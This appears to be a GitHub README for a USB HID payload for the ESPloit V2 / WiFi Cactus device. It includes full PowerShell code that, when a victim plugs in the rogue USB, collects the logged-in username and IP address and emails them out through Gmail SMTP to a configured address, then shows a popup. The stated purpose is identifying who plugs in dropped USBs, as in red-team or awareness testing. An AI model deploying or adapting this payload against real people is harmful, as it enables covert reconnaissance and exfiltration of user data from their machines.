 # IP-Hostname-USB-Payload
ESPloit V2 Cactus WiFi/HID Payload - IP&Hostname Grab

This is formatted for ESPloit V2 by Corey Harding

Used in a WiFi Cactus
Resource for ESPloit: https://github.com/exploitagency/ESPloitV2

This payload uses Powershell to grab the current username and IP address of the victims workstation and then uses gmail to send it back to the target source email account.
The IP and Hostname payload is primarily used to enumerate users who plug in a rogue USB. It takes about 1.5 seconds to run, and if interrupted could fail to resolve.

At the end of the PSX script there is also a system message that alerts the user. Our use case was to return the USB to the proper point of contact but can be modified or removed.

You can find the raw PSX below in case you want to put this into a Ducky Script. I will attempt to add the full Ducky Script at a later date once I have one to debug on. 

$name = "<gmailsource>@gmail.com";
$pass = "<gmailsourcepass>" | ConvertTo-SecureString -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential("$name",$pass);
$user = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name;
$ipV4 = Test-Connection -ComputerName (hostname) -Count 1  | Select IPV4Address | Out-String; $From = "<gmailsource>@gmail.com";
$To = "<destination>@<domain>.com";
$Cc = "<destination2>@<domain>.com";
$Subject = "Email Subject";
$Body = "`n`n`nHostname and User: `n$user `n$ipV4"; $SMTPServer = "smtp.gmail.com";
$SMTPPort = "587";
Send-MailMessage -From $From -to $To -Cc $Cc -Subject $Subject ` -Body $Body -SmtpServer $SMTPServer -port $SMTPPort -UseSsl ` -Credential $creds;
msg $env:UserName <enter message here>
